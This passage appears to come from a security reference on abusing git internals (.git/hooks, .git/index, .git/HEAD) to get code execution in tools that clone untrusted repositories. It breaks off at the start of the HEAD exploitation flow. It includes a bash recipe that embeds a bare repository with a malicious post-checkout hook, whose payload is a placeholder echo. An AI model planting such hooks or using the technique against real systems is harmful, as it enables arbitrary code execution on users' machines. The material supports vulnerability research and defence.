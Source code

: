### Abuse via .git/hooks/

Various files within [.git/hooks/](https://git-scm.com/docs/githooks) are [executed upon certain git operations](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks). For example:

- `pre-commit` and `post-commit` are executed before and after a commit operation respectively
- `post-checkout` is executed after checkout operation
- `pre-push` is executed before a push operation

On filesystems that differentiate between executable and non-executable files, Hooks are only executed if the respective file is executable. Furthermore, hooks only execute given certain user interaction, such as upon performing a commit.

For instance, you can use bare repositories to deliver custom git hooks and execute arbitrary code:

```bash
# clone or create a repo
$ git clone "<REPO>" target_directory
$ cd target_directory
# add subproject as a bare repo
$ mkdir subproject
$ cd subproject
$ git init --bare
# add malicious hook
$ echo "#!/bin/sh" > hooks/post-checkout
$ echo "echo 'arbitrary code here'" >> hooks/post-checkout
# commit and push
```

If the vulnerable code executes the following bash commands against the prepared repository, it will trigger the custom hook execution and result in the arbitrary code being executed:

```bash
$ git clone -- "<REPO>" "target_directory"
$ cd "target_directory"
$ git checkout "subproject"
```

References:
- [Writeup: 4 Google Cloud Shell bugs explained – bug #3](https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-bug-3/)
- [Research: Git honours embedded bare repos, and exploitation via core.fsmonitor in a directory's .git/config affects IDEs, shell prompts and Git pillagers](https://github.com/justinsteven/advisories/blob/main/2022_git_buried_bare_repos_and_fsmonitor_various_abuses.md)

### Abuse via .git/index

You can achieve an arbitrary write primitive using a crafted `.git/index` file, check an [advisory](https://drivertom.blogspot.com/2021/08/git.html).

### Abuse via .git/HEAD

It is possible to trick Git into loading a configuration from an unintended location by corrupting `.git/HEAD`. In such cases, Git starts looking for repositories in the current folder, which an attacker can fully control, for example, if the current folder is a working tree with all the files of the cloned remote repository. The exploitation flow may look like this:
